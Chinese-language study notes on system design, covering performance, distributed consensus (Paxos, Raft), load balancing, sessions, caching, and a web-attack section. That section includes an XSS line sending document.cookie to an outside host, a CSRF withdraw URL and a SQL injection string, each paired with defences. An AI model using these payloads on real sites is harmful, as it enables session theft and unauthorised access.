



# 系统设计基础

## 性能

### 性能指标

#### 1.响应时间

请求从发出到接收到响应消耗的时间。

对响应时间进行测试时，应该计算平均值。

#### 2.吞吐量

系统在单位时间内可以处理的请求数量，通常以秒为单位。

#### 3.并发用户数

系统能同时处理的并发用户请求数量。

在没有并发存在的系统中，请求被顺序执行，此时响应时间为吞吐量的倒数。例如系统的支持的吞吐量为100请求每秒，那么平均响应时间应该为0.01秒。


目前流行使用多线程来处理并发请求，对线程能够提高吞吐量以及缩短响应时间，主要两个原因：

- 多CPU
- IO 等待时间

使用 IO 多路复用等方式，系统在等待一个 IO 操作完成的这段时间内不需要被阻塞，可以去处理其它 IO 请求。通过将这个等待时间利用起来，使得 CPU 利用率大大提高。

并发用户数不是越高越好，因为如果并发用户数太高，系统来不及处理这么多的请求，会使得过多的请求需要等待，那么响应时间就会大大提高。

### 性能优化

#### 1.集群

将多台服务器组成集群，使用负载均衡将请求转发到集群中，避免单一服务器压力过大导致性能降低。

#### 2.缓存

缓存能够提高性能的原因：

- 缓存通常位于内存，内存的读操作非常快。
- 缓存数据可以位于靠近用户的地理位置上。
- 可将计算结果进行缓存，避免重复计算。

#### 3.异步

某些流程可以将操作转化为消息，将消息发送到消息队列后立即返回，之后这个操作会被异步处理。


## 伸缩性

指不断向集群中添加服务器来缓解不断上升的用户并发访问压力和不断增长的数据存储需求。

### 伸缩性和性能

如果系统存在性能问题，那么单个用户的请求总是很慢的。

如果系统存在伸缩性问题，那么单个用户的请求可能会很快，但是在并发数很高的情况下系统会很慢。

### 实现伸缩性

应用服务器只要不具有状态，那么就可以很容易地通过负载均衡器向集群中添加新的服务器。

关系型数据库的伸缩性通过 Sharding 来实现，将数据按一定的规则分布到不同的节点上，从而解决单台存储服务器的存储空间限制。

对于非关系型数据库，它们天生就是为海量数据而诞生，对伸缩性的支持特别好。


## 扩展性

指的是添加新功能时对现有系统的其它应用无影响，这就要求不同应用具备低耦合的特点。

实现可扩展主要有两种方式：

- 使用消息队列进行解耦，应用之间通过消息进行通信。
- 使用分布式服务将业务和可复用的服务分离开来，业务使用分布式服务框架调用可复用的服务。新增的产品可以通过调用可复用的服务来实现业务逻辑，对其它产品没有影响。

## 可用性

### 冗余

保证高可用的主要手段是使用冗余，当某个服务器故障时就请求其它服务器。

应用服务器的冗余比较容易实现，只要保证应用服务器不具有状态，那么某个应用服务器故障时，负载均衡器将该应用服务器原先的用户请求转发到另一个应用服务器上，不会对用户有任何影响。

存储服务器的冗余需要使用主从复制来实现，当主服务器故障时，需要提升从服务器为主服务器，这个过程称为切换。

### 监控

对 CPU、内存、磁盘、网络等系统负载信息进行监控，当某个信息达到一定阈值时通知运维人员，从而在系统发生故障之前及时发现问题。

### 服务降级

服务降级是系统为了应对大量的请求，主动关闭部分功能，从而保证核心功能可用。


## 安全性

要求系统在应对各种攻击手段时能够有可靠的应对措施。


# 分布式


## 分布式 ID

1. Redis incr 指令

2. Zookeeper 节点路径

3. Universally Unique Identifier（UUID 通用唯一标识符） 

   

   

4. 雪花ID


## 分布式锁

1. 数据库的唯一索引

2. Redis SETNX 指令（多节点）

3. Zookeeper 临时有序节点

## 分布式事务

分布式事务的操作位于不同节点上，需要保证事务的ACID特性。

### 2PC

一个指挥官和多个士兵，指挥官负责指挥士兵执行任务和提交任务。当有一个士兵执行任务出错，一票否决，全部士兵放弃任务（回滚）；当士兵们都完美地完成任务，指挥官则会让他们提交任务

❌ 提交任务时，指挥官阵亡，那么士兵们将一直发呆

❌ 提交任务时，部分士兵阵亡未能完成提交，总任务宣告失败


### 3PC

一阶段指挥官向所有士兵询问是否能完成任务，士兵回复 Yes 或 No，若有士兵不回复，指挥官放弃任务；士兵全体回复 Yes Sir 则进入二阶段，士兵执行任务并回复 Yes 或 No，若有士兵不回复，指挥官下令终止任务；全体士兵完成二阶段任务并回复 Yes 则进入三阶段，指挥官下令提交任务，指挥官在此时不下令提交，士兵也会提交任务（一阶段的意义）

❌ 执行任务时，有士兵失败，指挥官下令撤销任务，下令下到一半指挥官阵亡，总任务失败

❌ 提交任务时，当部分士兵提交成功时突然其它士兵阵亡，总任务失败


### 本地消息表

本地消息表与业务数据表处于同一个数据库中，这样就能利用本地事务来保证在对这两个表的操作满足事务特性，并且使用了消息队列来保证最终一致性。

1. 在分布式事务操作的一方完成写业务数据的操作之后向本地消息表发送一个消息，本地事务能保证这个消息一定会被写入本地消息表中。
2. 之后将本地消息表中的消息转发到消息队列中，如果转发成功则将消息从本地消息表中删除，否则继续重新转发。
3. 在分布式事务操作的另一方从消息队列中读取一个消息，并执行消息中的操作。



## CAP

分布式系统不可能同时满足一致性（Consistency）、可用性（Availability）和分区容忍性（Partition Tolerance），最多只能同时满足其中两项。


1. 一致性 —— 分布式系统每个节点的数据副本的值保持一致
2. 可用性 —— 面对各种异常时可以提供正常服务的能力
3. 分区容忍性 —— 系统本是整体，由于网络问题，某些节点访问不了其它节点，这就出现了分区。某个数据只存在一个节点，那么在这个节点外的分区也就无法访问到此数据，说明分区容忍性地下


<span style='font-size: 24px'>权衡</span>

分区容忍性必不可少，因为需要假设网络是不可靠的

可用性和一致性往往是冲突的，很难使它们同时满足。在多个节点之间进行数据同步时，

- 为了保证一致性（CP），不能访问未同步完成的节点，也就失去了部分可用性
- 为了保证可用性（AP），允许读取所有节点的数据，但是数据可能不一致

## BASE

1. 基本可用（Basically Available） —— 分布式系统在出现故障的时候，保证核心业务可用，允许损失部分可用性
2. 软状态（Soft State） —— 指允许系统中的数据存在中间状态，并认为该中间状态不会影响系统整体可用性
3. 最终一致性（Eventually Consistent） —— 在经过一段时间的同步后，最终能达到一致的状态

BASE 理论是对 CAP 中一致性和可用性权衡的结果，它的核心思想是：即使无法做到强一致性，但每个应用都可以根据自身业务特点，采用适当的方式来使系统达到最终一致性

## Paxos

解决的问题正是分布式一致性问题，即一个分布式系统中的各个进程如何就某个值（决议）达成一致。

**两大优点：**

- 运行在允许宕机故障的异步系统中，不要求可靠的消息传递，可容忍消息丢失、延迟、乱序以及重复。
- 利用大多数 (Majority) 机制保证了 2F+1 的容错能力，即 2F+1 个节点的系统最多允许 F 个节点同时出现故障。

> Zookeeper 集群就是利用 Majority 机制，防止脑裂，也就不可能决议出两个不同的提案。


### Paxos 角色

- **Proposer**: 提出提案 (Proposal)，提案发送给所有 Acceptor

  > 提案包括：
  >
  > 1. 提案编号 (Proposal ID) 
  > 2. 提议的值 (Value)

- **Acceptor**：对 Proposal 做出应答

  > Proposal 获得多数 Acceptors 的接受，则称该 Proposal 被批准。

- **Learner**：不参与决策，从 Proposers/Acceptors 学习最新达成一致的提案（Value）


Paxos算法通过一个决议分为两个阶段（Learn 阶段之前决议已经形成）：

1. Prepare 阶段。Proposer 向所有 Acceptors 发出 Prepare 请求，Acceptors 针对收到的 Prepare 进行响应。

   > **Prepare**: Proposer 生成全局唯一且递增的 Proposal ID ，向所有Acceptors 发送 Prepare请求，携带一个Value。
   >
   > **Promise**: Acceptors 收到 Prepare 请求后，做出“两个承诺，一个应答”。
   >
   > 
   >
   > 两个承诺：
   >
   > 1. 不再接受（Accept） Proposal ID 小于等于（<= ）当前的 Prepare 请求。
   > 2. 不再接受（Accept） Proposal ID 小于（< ）当前请求的 Propose 请求。
   >
   > 
   >
   > 一个应答：
   >
   > 不违背以前作出的承诺下，回复已经接受（Accept）过的提案中 Proposal ID 最大的那个提案的 Value 和 Proposal ID，没有则返回空值。
   >

2. Accept 阶段。Proposer 收到多数 Acceptors 承诺的 Promise 后，向Acceptor 发出 Propose请求，Acceptor 针对收到的 Propose 请求进行Accept 处理。

   > **Propose**: Proposer 收到多数 Acceptor 的响应后，从响应中选择Proposal ID 最大的提案的 Value，作为本次要发起的提案。
   >
   > 如果所有应答的提案 Value 均为空，则可以自己随意决定提案Value。
   >
   > 然后携带当前 Proposal ID，向所有 Acceptor 发送 Propose请求。
   >
   > 
   >
   > **Accept**: Acceptor 收到 Propose 请求后，在不违背自己之前作出的承诺下，接受并持久化当前 Proposal ID 和提案Value。

3. 第三阶段：Learn阶段。Proposer在收到多数Acceptors的Accept之后，标志着本次Accept成功，决议形成，将形成的决议发送给所有Learners。


### 执行过程

规定一个提议包含两个字段：[Proposal ID, value]

#### 1. Prepare 阶段

Acceptor会经历两个阶段：

1. 没收到 Proposer 的提议，那么发送一个 Prepare 回应，设置当前接受到的提议
2. 此后不会接受 Proposal ID **小于等于** 当前提议序号的提议

每个 Proposer 都会向所有 Acceptor 发送 Prepare 请求。


上图，A 的 prepare 请求先到X、Y，B的prepare先到 Z


如下图，AcceptorZ 收到 ProposerA 发来的 [n=2, v=8] 的 Prepare 请求，由于之前已经接收过 [n=4, v=5] 的提议，并且 n > 2，因此就抛弃该提议请求，没有接受所以无需应答。

AcceptorX 收到 ProposerB 发来的 [n=4, v=5] 的 Prepare 请求，因为之前接收到的提议为 [n=2, v=8]，并且 2 <= 4，向之前接受的 Proposal 的 Proposer 发送 [n=2, v=8] 的 Prepare response 响应。

Acceptor Y 类似。


#### 2. Accept 阶段

当一个提案被 `Proposer` 提出后，如果 `Proposer` 收到了超过半数的 `Acceptor` 的批准（`Proposer` 本身同意），这个时候 `Proposer` 就会发送 acceept 请求。需要注意的是，Accept 请求的 v 需要取它收到的Prepare 响应的最大提议编号对应的 v 值。

此阶段 Acceptor 不会接受提案序号 **小于** 上阶段收到最大提案序号的提案


Proposer A 接收到两个 Prepare 响应之后，就发送 [n=2, v=8] Accept 请求。该 Accept 请求会被所有 Acceptor 丢弃，因为此时所有 Acceptor 都保证不接受序号小于 4 的提议。

Proposer B 过后也收到了两个 Prepare 响应，它发送 [n=4, v=8] 的 Accept 请求。

 Acceptor  accept 提案（此时执行提案内容但不提交），随后将情况返回给 `Proposer` 。如果不满足则不回应或者返回 NO 。


当 `Proposer` 收到超过半数的 `accept` ，那么它这个时候会向所有的 `acceptor` 发送提案的提交请求。

需要注意的是，因为上述仅仅是超过半数的 `acceptor` 批准执行了该提案内容，其他没有批准的并没有执行该提案内容，所以这个时候需要**向未批准的 `acceptor` 发送提案内容和提案编号并让它无条件执行和提交**，而对于前面已经批准过该提案的 `acceptor` 来说 **仅仅需要发送该提案的编号** ，让 `acceptor` 执行提交就行了。

而如果 `Proposer` 如果没有收到超过半数的 `accept` 那么它将会将 **递增** 该 `Proposal` 的编号，然后 **重新进入 `Prepare` 阶段** 。

#### 3. Learn 阶段

Acceptor 接收到 Accept 请求时，如果序号大于等于该 Acceptor 承诺的最小序号，那么就发送 Learn 提议给所有的 Learner。

当 Learner 发现有大多数的 Acceptor 接收了某个提议，那么该提议的提议值就被 Paxos 选择出来。


### 约束条件

#### 1. 正确性

指只有一个提议值会生效。

因为 Paxos 协议要求每个生效的提议被多数 Acceptor 接收，并且 Acceptor 不会接受两个不同的提议，因此可以保证正确性。

#### 2. 可终止性

指最后总会有一个提议生效。

Paxos 协议能够让 Proposer 发送的提议朝着能被大多数 Acceptor 接受的那个提议靠拢，因此能够保证可终止性。


## Raft

Raft 也是分布式一致性协议，主要是用来竞选主节点。

[Raft: Understandable Distributed Consensus](http://thesecretlivesofdata.com/raft)

### 单个 Candidate 的竞选

有三种节点：Follower、Candidate 和 Leader。

Leader 会周期性的发送心跳包给 Follower。

Follower 设置了一个随机的竞选超时时间，一般为 150ms~300ms，如果在这个时间内没有收到 Leader 的心跳包，就会变成 Candidate，进入竞选阶段。

- 启动阶段，只有 Follower。Node A 等待一个随机的竞选超时时间之后，没收到 Leader 发来的心跳包，因此进入竞选阶段。

  

- 此时 Node A 发送投票请求给其它所有节点。

  

- 其它节点会对请求进行回复，如果超过一半的节点回复了，那么该 Candidate 就会变成 Leader。

  

- 之后 Leader 会周期性地发送心跳包给 Follower，Follower 接收到心跳包，会重新开始计时。

  


### 多个 Candidate 竞选

- 如果有多个 Follower 成为 Candidate，并且所获得票数相同，那么就需要重新开始投票。例如下图中 Node B 和 Node D 都获得两票，需要重新开始投票。

  

- 由于每个节点设置的随机竞选超时时间不同，因此下一次再次出现多个 Candidate 并获得同样票数的概率很低。

  

### 数据同步

写请求都会被传入 Leader。注意该修改还未被提交，只是写入日志中。


Leader 会把修改复制到所有 Follower


Leader 会等待大多数的 Follower 也进行了修改，然后才将修改提交


- 此时 Leader 会通知的所有 Follower 让它们也提交修改，此时所有节点的值达成一致。

  


# 集群

## 负载均衡

集群中的服务器（节点）通常设计成无状态的，用户可以请求任意一个点。

负载均衡会根据集群中每个节点的负载情况，将用户请求转发到合适的节点上。


负载均衡可以用来实现高可用以及伸缩性：

- 高可用：当某个节点故障时，负载均衡器会将用户请求转发到另外的节点上，从而保证所有服务持续高可用；
- 伸缩性：根据系统整体负载情况，可以很容易地添加或移除节点。


负载均衡运行过程包含两个部分：

1. 根据负载均衡算法得到转发的节点；
2. 进行转发。


### 负载均衡算法

#### 1.轮询（Round Robin）

轮询算法把每个请求轮流发送到每个服务器上。

下图中，一共有 6 个客户端产生了 6 个请求，这 6 个请求按 (1, 2, 3, 4, 5, 6) 的顺序发送。(1, 3, 5) 的请求会被发送到服务器 1，(2, 4, 6) 的请求会被发送到服务器 2。


该算法比较适合每个服务器的性能差不多的场景，如果有性能存在差异的情况下，那么性能较差的服务器可能无法承担过大的负载（下图的 Server 2）。


#### 2. 加权轮询（Weighted Round Robbin）

加权轮询是在轮询的基础上，根据服务器的性能差异，为服务器赋予一定的权值，性能高的服务器分配更高的权值。

例如下图中，服务器 1 被赋予的权值为 5，服务器 2 被赋予的权值为 1，那么 (1, 2, 3, 4, 5) 请求会被发送到服务器 1，(6) 请求会被发送到服务器 2。


#### 3. 最少连接（least Connections）

由于每个请求的连接时间不一样，使用轮询或者加权轮询算法的话，可能会让一台服务器当前连接数过大，而另一台服务器的连接过小，造成负载不均衡。

例如下图中，(1, 3, 5) 请求会被发送到服务器 1，但是 (1, 3) 很快就断开连接，此时只有 (5) 请求连接服务器 1；(2, 4, 6) 请求被发送到服务器 2，只有 (2) 的连接断开，此时 (6, 4) 请求连接服务器 2。该系统继续运行时，服务器 2 会承担过大的负载。


最少连接算法就是将请求发送给当前最少连接数的服务器上。

例如下图中，服务器 1 当前连接数最小，那么新到来的请求就会被发送到服务器 1 上。

#### 4. 加权最少连接（Weighted Least Connection）

在最少连接的基础上，根据服务器的性能为每台服务器分配权重，再根据权重计算出每台服务器能处理的连接数。

#### 5. 随机算法（Random）

把请求随机发送到服务器上。

和轮询算法类似，该算法比较适合服务器性能差不多的场景。


#### 6. 源地址哈希法 (IP Hash)

源地址哈希通过对客户端 IP 计算哈希值之后，再对服务器数量取模得到目标服务器的序号。

可以保证同一 IP 的客户端的请求会转发到同一台服务器上，用来实现会话粘滞（Sticky Session）


### 转发实现

#### 1. HTTP 重定向

HTTP 重定向负载均衡服务器使用某种负载均衡算法计算得到服务器的 IP 地址之后，将该地址写入 HTTP 重定向报文中，状态码为 302。客户端收到重定向报文之后，需要重新向服务器发起请求。

缺点：

- 需要两次请求，因此访问延迟比较高；
- HTTP 负载均衡器处理能力有限，会限制集群的规模。

该负载均衡转发的缺点比较明显，实际场景中很少使用它。


#### 2. DNS 域名解析

在 DNS 解析域名的同时使用负载均衡算法计算服务器 IP 地址。

优点：

- DNS 能够根据地理位置进行域名解析，返回离用户最近的服务器 IP 地址。

缺点：

- 由于 DNS 具有多级结构，每一级的域名记录都可能被缓存，当下线一台服务器需要修改 DNS 记录时，需要过很长一段时间才能生效。

大型网站基本使用了 DNS 做为第一级负载均衡手段，然后在内部使用其它方式做第二级负载均衡。也就是说，域名解析的结果为内部的负载均衡服务器 IP 地址。


#### 3. 反向代理服务器

反向代理服务器位于源服务器前面，用户的请求需要先经过反向代理服务器才能到达源服务器。反向代理可以用来进行缓存、日志记录等，同时也可以用来做为负载均衡服务器。

在这种负载均衡转发方式下，客户端不直接请求源服务器，因此源服务器不需要外部 IP 地址，而反向代理需要配置内部和外部两套 IP 地址。

优点：

- 与其它功能集成在一起，部署简单。

缺点：

- 所有请求和响应都需要经过反向代理服务器，它可能会成为性能瓶颈。


#### 4. 网络层

在操作系统内核进程获取网络数据包，根据负载均衡算法计算源服务器的 IP 地址，并修改请求数据包的目的 IP 地址，最后进行转发。

源服务器返回的响应也需要经过负载均衡服务器，通常是让负载均衡服务器同时作为集群的网关服务器来实现。

优点：

- 在内核进程中进行处理，性能比较高。

缺点：

- 和反向代理一样，所有的请求和响应都经过负载均衡服务器，会成为性能瓶颈。


#### 5. 链路层

在链路层根据负载均衡算法计算源服务器的 MAC 地址，并修改请求数据包的目的 MAC 地址，并进行转发。

通过配置源服务器的虚拟 IP 地址和负载均衡服务器的 IP 地址一致，从而不需要修改 IP 地址就可以进行转发。也正因为 IP 地址一样，所以源服务器的响应不需要转发回负载均衡服务器，可以直接转发给客户端，避免了负载均衡服务器的成为瓶颈。

这是一种三角传输模式，被称为直接路由。对于提供下载和视频服务的网站来说，直接路由避免了大量的网络传输数据经过负载均衡服务器。

这是目前大型网站使用最广负载均衡转发方式，在 Linux 平台可以使用的负载均衡服务器为 LVS（Linux Virtual Server）。

参考：

- [Comparing Load Balancing Algorithms](http://www.jscape.com/blog/load-balancing-algorithms)
- [Redirection and Load Balancing](http://slideplayer.com/slide/6599069/#)


## 集群下的 Session 管理

一个用户的 Session 信息如果存储在一个服务器上，那么当负载均衡器把用户的下一个请求转发到另一个服务器，由于服务器没有用户的 Session 信息，那么该用户就需要重新进行登录等操作。


### Sticky Session

需要配置负载均衡器，使得一个用户的所有请求都路由到同一个服务器，这样就可以把用户的 Session 存放在该服务器中。

缺点：

- 当服务器宕机时，将丢失该服务器上的所有 Session。


### Session Replication

在服务器之间进行 Session 同步操作，每个服务器都有所有用户的 Session 信息，因此用户可以向任何一个服务器进行请求。

缺点：

- 占用过多内存；
- 同步过程占用网络带宽以及服务器处理器时间。


### Session Server

使用一个单独的服务器存储 Session 数据，可以使用传统的 MySQL，也使用 Redis 或者 Memcached 这种内存型数据库。

优点：

- 为了使得大型网站具有伸缩性，集群中的应用服务器通常需要保持无状态，那么应用服务器不能存储用户的会话信息。Session Server 将用户的会话信息单独进行存储，从而保证了应用服务器的无状态。

缺点：

- 需要去实现存取 Session 的代码。


# 攻击技术

## 跨站脚本攻击

### 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

### 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

### 防范手段

#### 1. 设置 Cookie 为 HttpOnly

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

#### 2. 过滤特殊字符

例如将 `<` 转义为 `<`，将 `>` 转义为 `>`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

以下例子中，form 和 script 等标签都被转义，而 h 和 p 等标签将会保留。

```html
<h1 id="title">XSS Demo</h1>

<p>123</p>

<form>
  <input type="text" name="q" value="test">
</form>

<pre>hello</pre>

<script type="text/javascript">
alert(/xss/);
</script>
<h1>XSS Demo</h1>

<p>123</p>

&lt;form&gt;
  &lt;input type="text" name="q" value="test"&gt;
&lt;/form&gt;

<pre>hello</pre>

&lt;script type="text/javascript"&gt;
alert(/xss/);
&lt;/script&gt;
```

> [XSS 过滤在线测试](http://jsxss.com/zh/try.html)


## 跨站请求伪造

### 概念

跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。

XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。

### 攻击原理

假如一家银行用以执行转账操作的 URL 地址如下：

```
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
```

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```html
。
```

如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元。

这种恶意的网址可以有很多种形式，藏身于网页中的许多地方。此外，攻击者也不需要控制放置恶意网址的网站。例如他可以将这种地址藏在论坛，博客等任何用户生成内容的网站中。这意味着如果服务器端没有合适的防御措施的话，用户即使访问熟悉的可信网站也有受攻击的危险。

通过例子能够看出，攻击者并不能通过 CSRF 攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是欺骗用户浏览器，让其以用户的名义执行操作。

### 防范手段

#### 1. 检查 Referer 首部字段

Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求来源的地址在同一个域名下，可以极大的防止 CSRF 攻击。

这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的 Referer 字段。虽然 HTTP 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。

#### 2. 添加校验 Token

在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。

#### 3. 输入验证码

因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作。


## SQL 注入攻击

### 概念

服务器上的数据库运行非法的 SQL 语句，主要通过拼接来完成。

### 攻击原理

例如一个网站登录验证的 SQL 查询代码为：

```java
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果填入以下内容：

```java
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
```

那么 SQL 查询字符串为：

```java
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

此时无需验证通过就能执行以下查询：

```java
strSQL = "SELECT * FROM users;"
```

### 防范手段

#### 1. 使用参数化查询

Java 中的 PreparedStatement 是预先编译的 SQL 语句，可以传入适当参数并且多次执行。由于没有拼接的过程，因此可以防止 SQL 注入的发生。

```java
PreparedStatement stmt = connection.prepareStatement("SELECT * FROM users WHERE userid=? AND password=?");
stmt.setString(1, userid);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
```

#### 2. 单引号转换

将传入的参数中的单引号转换为连续两个单引号，PHP 中的 Magic quote 可以完成这个功能。


## 拒绝服务攻击

拒绝服务攻击（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。

分布式拒绝服务攻击（distributed denial-of-service attack，DDoS），指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。


# 缓存

## 缓存特征

### 命中率

当某个请求能够通过访问缓存而得到响应时，称为缓存命中。

缓存命中率越高，缓存的利用率也就越高。

### 最大空间

缓存通常位于内存中，内存的空间通常比磁盘空间小的多，因此缓存的最大空间不可能非常大。

当缓存存放的数据量超过最大空间时，就需要淘汰部分数据来存放新到达的数据。

### 淘汰策略

- FIFO（First In First Out）：先进先出策略，在实时性的场景下，需要经常访问最新的数据，那么就可以使用 FIFO，使得最先进入的数据（最晚的数据）被淘汰。
- LRU（Least Recently Used）：最近最久未使用策略，优先淘汰最久未使用的数据，也就是上次被访问时间距离现在最久的数据。该策略可以保证内存中的数据都是热点数据，也就是经常被访问的数据，从而保证缓存命中率。
- LFU（Least Frequently Used）：最不经常使用策略，优先淘汰一段时间内使用次数最少的数据。


## 缓存位置

### 浏览器

当 HTTP 响应允许进行缓存时，浏览器会将 HTML、CSS、JavaScript、图片等静态资源进行缓存。

### ISP

网络服务提供商（ISP）是网络访问的第一跳，通过将数据缓存在 ISP 中能够大大提高用户的访问速度。

### 反向代理

反向代理位于服务器之前，请求与响应都需要经过反向代理。通过将数据缓存在反向代理，在用户请求反向代理时就可以直接使用缓存进行响应。

### 本地缓存

使用 Guava Cache 将数据缓存在服务器本地内存中，服务器代码可以直接读取本地内存中的缓存，速度非常快。

### 分布式缓存

使用 Redis、Memcache 等分布式缓存将数据缓存在分布式缓存系统中。

相对于本地缓存来说，分布式缓存单独部署，可以根据需求分配硬件资源。不仅如此，服务器集群都可以访问分布式缓存，而本地缓存需要在服务器集群之间进行同步，实现难度和性能开销上都非常大。

### 数据库缓存

MySQL 等数据库管理系统具有自己的查询缓存机制来提高查询效率。

### Java 内部的缓存

Java 为了优化空间，提高字符串、基本数据类型包装类的创建效率，设计了字符串常量池及 Byte、Short、Character、Integer、Long、Boolean 这六种包装类缓冲池。

### CPU 多级缓存

CPU 为了解决运算速度与主存 IO 速度不匹配的问题，引入了多级缓存结构，同时使用 MESI 等缓存一致性协议来解决多核 CPU 缓存数据一致性的问题。


## CDN

内容分发网络（Content distribution network，CDN）是一种互连的网络系统，它利用更靠近用户的服务器从而更快更可靠地将 HTML、CSS、JavaScript、音乐、图片、视频等静态资源分发给用户。

CDN 主要有以下优点：

- 更快地将数据分发给用户；
- 通过部署多台服务器，从而提高系统整体的带宽性能；
- 多台服务器可以看成是一种冗余机制，从而具有高可用性。




## 缓存问题

### 缓存穿透

指的是对某个一定不存在的数据进行请求，该请求将会穿透缓存到达数据库。

解决方案：

- 对这些不存在的数据缓存一个空数据；
- 对这类请求进行过滤（布隆过滤器）。

### 缓存雪崩

指的是由于数据没有被加载到缓存中，或者缓存数据在同一时间大面积失效（过期），又或者缓存服务器宕机，导致大量的请求都到达数据库。

在有缓存的系统中，系统非常依赖于缓存，缓存分担了很大一部分的数据请求。当发生缓存雪崩时，数据库无法处理这么大的请求，导致数据库崩溃。

解决方案：

- 为了防止缓存在同一时间大面积过期导致的缓存雪崩，可以通过观察用户行为，合理设置缓存过期时间来实现；
- 为了防止缓存服务器宕机出现的缓存雪崩，可以使用分布式缓存，分布式缓存中每一个节点只缓存部分的数据，当某个节点宕机时可以保证其它节点的缓存仍然可用。
- 也可以进行缓存预热，避免在系统刚启动不久由于还未将大量数据进行缓存而导致缓存雪崩。


### 缓存 “无底洞” 现象

指的是为了满足业务要求添加了大量缓存节点，但是性能不但没有好转反而下降了的现象。

产生原因：缓存系统通常采用 hash 函数将 key 映射到对应的缓存节点，随着缓存节点数目的增加，键值分布到更多的节点上，导致客户端一次批量操作会涉及多次网络操作，这意味着批量操作的耗时会随着节点数目的增加而不断增大。此外，网络连接数变多，对节点的性能也有一定影响。

解决方案：

- 优化批量数据操作命令；
- 减少网络通信次数；
- 降低接入成本，使用长连接 / 连接池，NIO 等。


## 数据分布

